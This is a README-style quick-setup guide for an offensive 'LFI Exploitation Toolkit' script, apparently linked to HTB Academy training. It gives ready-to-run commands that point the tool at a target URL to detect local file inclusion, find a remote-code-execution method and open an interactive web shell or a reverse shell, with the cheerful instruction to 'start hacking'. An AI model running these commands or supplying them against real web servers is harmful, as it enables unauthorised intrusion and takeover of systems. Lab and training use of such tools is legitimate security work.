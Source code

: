 # 🚀 START HERE - Quick Setup Guide
## Ghost Ops Security LFI Exploitation Toolkit

---

## ⚡ 60-Second Setup

```bash
# 1. Install dependencies (5 seconds)
pip3 install -r requirements.txt

# 2. Run the tool (10 seconds)
python3 lfi_exploiter.py -u http://target.com/page.php -p file --auto

# 3. Choose your option when prompted (5 seconds)
#    1) Interactive shell
#    2) Reverse shell
#    3) Exit

# 4. Start hacking! (40 seconds)
```

**That's it!** You're ready to exploit LFI vulnerabilities.

---

## 🎯 The ONE Tool You Need

### **lfi_exploiter.py**

This unified tool automatically:
- ✅ Checks PHP configuration
- ✅ Tests for LFI vulnerability  
- ✅ Tests all HTB Academy wrappers
- ✅ Finds working RCE method
- ✅ Gives you a shell

**No complex setup. No multiple tools. Just ONE command.**

---

## 📚 Three Commands to Remember

### 1. Auto-Exploit (Recommended)
```bash
python3 lfi_exploiter.py -u http://target.com/page.php -p file --auto
```
**What it does:** Everything automatically, then asks what you want

### 2. Interactive Shell
```bash
python3 lfi_exploiter.py -u http://target.com/page.php -p file --auto --shell
```
**What it does:** Gets you a web-based shell immediately
